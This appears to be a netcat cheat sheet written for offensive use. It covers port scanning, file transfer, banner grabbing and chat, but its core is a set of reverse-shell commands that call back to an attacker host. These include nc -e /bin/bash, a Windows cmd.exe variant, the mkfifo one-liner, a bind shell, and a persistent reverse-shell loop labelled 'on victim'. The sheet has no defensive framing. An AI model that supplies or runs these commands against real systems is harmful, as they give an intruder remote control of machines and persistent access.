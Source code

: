 
---
## 📖 Syntax

```bash
nc [options] <host> <port>
```

---

## 📡 Common Use Cases

### 🔍 1. Port Scanning

```bash
nc -zv 10.10.10.10 20-100
```

- `-z`: Zero I/O mode (just scanning)
- `-v`: Verbose output

---

### 📂 2. File Transfer

#### Server (Listening machine):

```bash
nc -lvp 4444 > received.txt
```

#### Client (Sending machine):

```bash
nc <IP> 4444 < file.txt
```

---

### 🐚 3. Reverse Shell

#### On Attacker (listener):

```bash
nc -lvnp 4444
```

#### On Target:

```bash
nc <attacker-ip> 4444 -e /bin/bash   # Linux
nc <attacker-ip> 4444 -e cmd.exe     # Windows
```

If `-e` is not available (e.g., in OpenBSD nc), use:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacker-ip> 4444 > /tmp/f
```

---

### 🔁 4. Bind Shell

#### On Target:

```bash
nc -lvnp 4444 -e /bin/bash
```

#### On Attacker:

```bash
nc <target-ip> 4444
```

---

### 🧪 5. Chat Between Two Hosts

#### Host A:

```bash
nc -lvp 5555
```

#### Host B:

```bash
nc <host-A-ip> 5555
```

---

## 🛠️ Useful Options

|Option|Description|
|---|---|
|`-l`|Listen mode|
|`-v`|Verbose|
|`-n`|Numeric-only IPs, no DNS resolution|
|`-p`|Local port|
|`-e`|Execute a program after connecting|
|`-z`|Zero I/O mode (scanning)|
|`-u`|Use UDP instead of TCP|
|`-w <sec>`|Timeout|

---

## 🔐 Netcat for Banner Grabbing

```bash
nc <target-ip> 80
```

Then manually type:

```http
GET / HTTP/1.1
Host: <target-ip>
```

---

## 🔄 Persistent Reverse Shell (Loop)

On victim:

```bash
while true; do nc <attacker-ip> 4444 -e /bin/bash; sleep 5; done
```
















